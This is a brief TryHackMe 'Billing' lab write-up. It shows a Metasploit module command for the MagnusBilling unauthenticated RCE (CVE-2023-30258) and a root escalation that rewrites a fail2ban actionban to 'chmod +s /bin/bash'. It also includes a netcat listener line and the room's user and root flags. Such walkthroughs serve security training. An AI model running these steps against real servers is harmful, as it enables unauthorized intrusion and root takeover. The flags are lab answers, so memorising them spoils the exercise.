 # Billing v2


- 16 mar | grayshader


***using metasploit module :::***
https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/

```
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
user flag location: /home/magnus/user.txt

**user_flag**

THM{4a6831d5f124b25eefb1e92e0f0da4ca}


***Privesc to Root***

found : (ALL) NOPASSWD: /usr/bin/fail2ban-client

fail2ban : utility Fail2Ban v0.11.2 reads log file that contains password failure report
and bans the corresponding IP addresses using firewall rules.

version is 
	sudo fail2ban-client version
			0.11.2

sudo fail2ban-client status
	Status
	|- Number of jail:      8
	`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

for reference
	[asterisk-iptables]   
	enabled  = true           
	filter   = asterisk       
	action   = iptables-allports[name=ASTERISK, port=all, protocol=all]   
	logpath  = /var/log/asterisk/messages 
	maxretry = 5  
	bantime = 600

actionban is run command after ban is activite.
now we can change actionban to
```
sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
add suid bit to /bin/bash	

ban a ip manually
suid bit added to bash

bash -p

our effective id is root 
 euid=0(root) egid=0(root) groups=0(root)

 
***root_flag***
 THM{33ad5b530e71a172648f424ec23fae60}



**references**

https://infosecwriteups.com/billing-tryhackme-writeup-aa32f343b0f1
https://www.linode.com/docs/guides/using-fail2ban-to-secure-your-server-a-tutorial/
https://www.revshells.com/  // used for shell stability   

```
rlwrap -f . -r nc -lvnp 1234
```
